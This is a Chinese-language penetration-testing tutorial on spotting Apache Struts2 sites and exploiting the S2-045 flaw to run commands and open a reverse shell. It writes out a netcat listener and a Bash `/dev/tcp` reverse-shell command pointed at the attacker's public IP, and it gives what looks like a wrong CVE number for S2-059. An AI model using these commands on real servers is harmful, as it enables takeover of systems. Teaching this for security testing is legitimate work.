# 网络安全教程：P49：Struts2识别与漏洞利用

## 概述
在本节课中，我们将学习Struts2框架的相关知识，包括其基本介绍、历史漏洞背景，并重点演示如何识别Struts2应用以及利用S2-045漏洞进行命令执行和反弹Shell操作。课程内容将分为理论介绍与实践演示两部分。

---

## Struts2框架介绍

上一节我们概述了本节课的内容，本节中我们来看看什么是Struts2。

Struts2是美国阿帕奇软件基金会负责的一个开源项目。它是一套用于创建企业级Java Web应用的开源MVC框架。MVC框架代表模型、视图以及控制器。Struts2主要提供两个版本的框架产品，分别是Struts1和Struts2。它在本质上相当于一个过滤器。在这个MVC设计模式中，Struts2作为控制器来建立模型与视图的数据交互。

简单来说，Struts2是一个框架，开发者可以基于此框架设计网站。许多网站都基于此框架进行构建。Struts2在历史上被披露了非常多的安全漏洞，例如S2-001、S2-003、S2-005等，大概有十几二十个。最近的一个漏洞出现在2019年，即S2-059，其CVE编号为CVE-2019-0232。另一个是S2-060，其CVE编号为CVE-2019-0233。除了这些较新的漏洞，一些旧漏洞也依然可能存在，例如比较常见的S2-045版本漏洞。由于Struts2使用广泛，其漏洞也发现得较多，因此在日常渗透测试中，可以尝试测试这些漏洞，尽管它们可能年代稍远，但仍有存在的可能性。



---

## Struts2漏洞利用演示





在了解了Struts2的基本情况后，本节我们将进入实践环节，演示如何利用一个具体的Struts2漏洞。





我们将演示如何利用S2-045漏洞进行命令执行。首先，我们需要识别目标网站是否使用了Struts2框架。识别方法通常包括检查错误页面、URL特征或使用专门的扫描工具。确认存在漏洞后，便可以尝试利用。

以下是利用S2-045漏洞执行系统命令的基本步骤：

1.  **构造恶意请求**：向目标服务器的特定端点发送一个经过精心构造的HTTP请求，在请求头中注入恶意代码。
2.  **执行命令**：恶意代码被服务器解析后，将执行我们指定的系统命令。

例如，我们可以尝试执行 `ls /` 命令来列出服务器根目录的文件。如果漏洞利用成功，服务器响应中会包含命令执行的结果。



---



## 通过漏洞获取反向Shell



上一节我们演示了如何执行简单的命令，本节中我们来看看如何通过该漏洞获得一个更持久的、交互式的Shell连接，即反弹Shell。

要进行反向Shell连接，首先需要在我们的公网服务器上监听一个端口。我们使用 `netcat`（简称nc）工具来完成这个操作。



在Linux系统上，使用以下命令监听端口：
```bash
nc -lvp 1234
```
*   `-l` 参数表示监听模式。
*   `-v` 参数表示输出详细信息。
*   `-p` 参数指定监听的端口号，这里是1234。



接着，在成功执行命令的漏洞利用点，我们需要发送一个反弹Shell的命令。该命令会指示目标服务器主动连接到我们监听的公网IP和端口。



一个典型的Bash反弹Shell命令如下：
```bash
bash -i >& /dev/tcp/你的公网IP/1234 0>&1
```
*   `bash -i` 产生一个交互式Shell。
*   `>& /dev/tcp/IP/端口` 将Shell的输入输出重定向到一个TCP连接。`/dev/tcp/` 是Bash的一个特性，用于处理网络连接。
*   `0>&1` 将标准输入也重定向到该连接，从而实现完全交互。





当我们在漏洞点发送此命令后，目标服务器就会尝试连接到我们公网服务器的1234端口。此时，在监听端（我们的服务器）就会接收到这个连接，并获得目标服务器的一个交互式Shell。通过这个Shell，我们可以执行 `id`、`whoami`、`ls` 等命令，完全控制目标服务器。

---





## 总结
本节课我们一起学习了Struts2框架的基本概念及其安全背景，并重点实践了S2-045漏洞的利用过程。我们掌握了如何识别Struts2应用、如何利用漏洞执行系统命令，以及如何进一步通过反弹Shell技术获得目标服务器的完整控制权。理解这些流程对于进行Web安全渗透测试至关重要。